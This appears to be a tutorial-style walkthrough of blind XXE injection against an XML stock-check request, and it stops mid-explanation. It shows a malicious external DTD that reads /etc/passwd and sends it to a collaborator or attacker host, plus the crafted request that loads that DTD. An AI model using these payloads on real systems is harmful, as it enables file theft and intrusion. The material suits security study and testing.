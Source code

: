 	   POST /product/stock HTTP/2
	   Host: subdomain.target.com
	   Cookie: session=ULqvEo6l9eIJ36rlH4NmVQivmqegNurA
	   Content-Length: 107
	   ...
	   ...
	   Connection: close
       ..
	   <?xml version="1.0" encoding="UTF-8"?>
	   <stockCheck>
		    <productId>2</productId>
			<storeId>1</storeId>
	   </stockCheck>

2) Now this case is pretty different. In this case we put a malicious DTD(Document Type Definition) in our(attacker) own server and then we extract the content by the manipulating server with the interaction of our malicious DTD, malicious DTD look like this..

       <!ENTITY % file SYSTEM "file:///etc/passwd">
       <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'https://burp_collaborator_client.net/?x=%file;'>">
	   %eval;
	   %exfil;

3) So, the request we send through application by adding our payload look like this.

	       POST /product/stock HTTP/2
			Host: subdomain.target.com
			Cookie: session=ULqvEo6l9eIJ36rlH4NmVQivmqegNurA
			Content-Length: 107
			...
			...
			Connection: close
			   ...
		    <?xml version="1.0" encoding="UTF-8"?>
		    <!DOCTYPE foo[<!ENTITY % prakhar SYSTEM "https://attacker_server.com/malicious.DTD"> %prakhar;]>
		      <stockCheck>
		      	<productId>2</productId>
			    <storeId>1</storeId>
			  </stockCheck>

 4) In the above case the attack scenario will .. 
   		
   	   - 1 - When we send the request with `%prakhar` entity, application go for `http://attacker_server.com/malicious.DTD`
   		
   		- 2 - Then the application run the attacker's `malicious.DTD` file in which 
   		      
   		 - 3  - The application first evaluate the `%eval` ENTITY, in which `%exfil` ENTITY is also mentioned i..e  
   		      
   		        `<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'https://burp_collaborator_client.net/?x=%file;'>">`

          - 4 - Then the application calls `%exfil` ENTITY [ &#x25; --> % ] through which application send DNS lookup to 
                `burp_collaborator_client.net` and..
